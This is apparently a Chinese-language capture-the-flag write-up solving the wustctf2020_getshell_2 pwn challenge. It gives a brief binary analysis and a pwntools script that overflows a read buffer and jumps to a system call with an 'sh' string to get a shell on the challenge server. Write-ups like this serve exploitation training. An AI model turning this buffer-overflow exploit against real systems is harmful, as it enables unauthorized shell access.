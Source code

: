 checksec检查安全机制

![image-20210410215318676](https://static.hack1s.fun/images/2021/04/10/image-20210410215318676.png)

就是一个特别简单的read

![image-20210410215417809](https://static.hack1s.fun/images/2021/04/10/image-20210410215417809.png)

之后有一个shell后门函数，但是字符串不是`/bin/sh`，被拆开了

直接写payload

本来想写ret2libc的，结果发现ret2libc长度不够，就直接用`system('sh')`这样的方式了

```python
from pwn import *
from LibcSearcher import *

#  io = process('./wustctf2020_getshell_2')                                                                                                                                                                    
io = remote('node3.buuoj.cn',28115)

io.recvuntil(' /_/ /_//_\\_\\ \n')
payload = b'a'*0x18 + b'b'*0x4 + p32(0x8048529) + p32(0x8048670)

io.send(payload)

io.interactive()
```

